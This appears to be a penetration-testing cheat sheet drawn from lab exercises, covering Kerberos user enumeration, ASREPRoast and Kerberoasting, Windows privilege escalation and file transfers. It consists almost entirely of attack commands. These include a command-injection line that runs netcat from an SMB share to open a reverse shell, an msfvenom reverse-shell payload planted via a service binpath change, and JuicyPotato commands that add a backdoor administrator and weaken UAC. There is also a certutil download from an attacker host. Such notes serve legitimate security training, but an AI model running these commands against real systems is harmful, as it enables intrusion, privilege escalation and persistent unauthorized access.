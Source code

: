 # OWASP Top 10

## SSL Certificates

```shell
# Inspect SSL certificates
openssl s_client -connect 10.10.10.250:443
````

## Command Injection

### Ask Jeeves

```powershell
# Shared resource
println "\\\\10.10.10.10\\smbFolder\\nc.exe -e 10.10.10.10 443".execute().text
```
------------------------------------------------------------------------------------------------------
# Windows Section

# Kerberos

## Enumerating valid users

#### [kerbrute](https://github.com/ropnop/kerbrute)

Find **valid** domain controller users

```powershell
kerbrute userenum --dc 10.10.10.250 -d domain.local users.list
```

Combinating with [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)

Find **ASREPRoast** users. Requires with **UF_DONT_REQUIRE_PREAUTH** attribute.

```powershell
GetNPUsers.py domain.local/ --no-pass -usersfile valid_users.list
```

Find **Kerberoasting** users. Requires users with **ServicePrincipalName** attribute.

Combinating with [GetUsersSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)

```powershell
GetUsersSPNs.py 'domain.local/jan:password'
```

# Windows Privilege Escalation Techniques

## Abusing groups

### Server Operators
Create/Modify Services

```powershell
# MSFVenom Reverse Shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > shell.exe

# Modiying binary
sc.exe config VMTools binpath="C:\Users\Janrdz\Desktop\shell.exe"
```
## Abusing Privileges

### SeImpersonatePrivilege
#### [JuicyPotato](https://github.com/k4sth4/Juicy-Potato)

```powershell
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user jan jan /add" -l 1337
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators jan /add" -l 1337
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
```

------------------------------------------------------------------------------------------------------

# File Transfers

## Windows

```powershell
certutil.exe -f -urlcache -split http://10.10.10.10/winPease.exe winPease.exe
```

## Impackets

```command
impacket-smbserver smbFolder $(pwd) -smb2support
```

------------------------------------------------------------------------------------------------------

# Extra

## Alternate Data Streams (Windows)

ADS (Alternate Data Stream): is the ability to branch data into existing files without changing or altering its functionality, size or display to file browsing utilities.

```command
dir /r /s
more < ads.txt
more < ads.txt:file.txt
```
